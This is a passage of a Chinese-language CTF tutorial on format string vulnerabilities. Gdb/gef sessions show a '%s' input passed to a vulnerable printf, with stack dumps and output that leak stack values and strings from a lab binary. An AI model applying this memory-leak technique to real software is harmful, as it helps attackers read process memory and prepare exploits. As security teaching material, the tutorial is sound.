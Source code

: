 ```shell
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
f7e8b6bb[Inferior 1 (process 57442) exited normally]
```

可以看出，我們確實獲得了printf的第4個參數所對應的值f7e8b6bb。

#### 獲取棧變量對應字符串

此外，我們還可以獲得棧變量對應的字符串，這其實就是需要用到%s了。這裏還是使用上面的程序，進行gdb調試，如下

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%s

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 沒有那個文件或目錄.
────────────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x18: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%s

Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
```